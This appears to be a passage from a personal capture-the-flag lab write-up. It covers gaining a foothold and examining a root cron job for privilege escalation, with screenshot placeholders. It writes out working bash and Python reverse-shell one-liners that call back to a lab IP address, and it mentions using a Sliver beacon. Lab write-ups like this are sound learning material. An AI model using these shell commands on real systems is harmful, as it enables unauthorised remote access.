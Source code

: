 ## Foothold

And a shell
![1080](andshell.png)

From this point I closed the Write up knowing there is a cron job for the PrivEsc, but I wanted to not just follow along.

1. 2 is 1 and 1 is none
![](wecanrunininuxmem.png)
...make shell
![](makeshell2.png)
background shell with `nohup ./shell2.sh &`. Bad reverse shell...
```bash
echo "#\!/bin/bash\n/bin/bash -i >& /dev/tcp/192.168.45.235/8443 0>&1"
```
`zsh` and `bash` difference
![](zshandbashdifferences.png)

Weird sadness of reverse shells 
![](weirdness.png)

And no python shell - 
```
export RHOST="192.168.45.235";export RPORT=8443;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```
Now given my objectives I have just wasted 20 minutes with this...
![](nopyshell.png)

Sometimes the slower put a sliver beacon on the system is just the best way to go about everything and not worry about nice network economy when you are learning. 

## Privilege Escalation


I checked `ls -la /etc/cron.d` and `cat /etc/cron.d/php`, but my shell seems to have lost the `cat /etc/crontab`. I scrolled down and had to stop myself after reading `/etc/crontab`..

![](weirdingout.png)

Questioning whether this is the CTF equivalent of gas lighting I spammed a load of nonsense, which I do not recommend when dealing with actual people that gas light. 
![](thenIspammedandIremovedthecrontab.png)

And it is erasing output. The solution is just screenshot everything
![](solutionscreenshot.png)
The script:
1. create password variable to store the contents of `/root/secret`
2. change directory to `/var/www/html/uploads`
3. remove all files that end with `.tmp` extension
4. then use 7za - 7-zip
![](7zipaddfiles.png)
Breaking down the flags
```bash
a # add to archive
-p # use a password
# -t is actually the flag 
-tzip # of type zip 
```
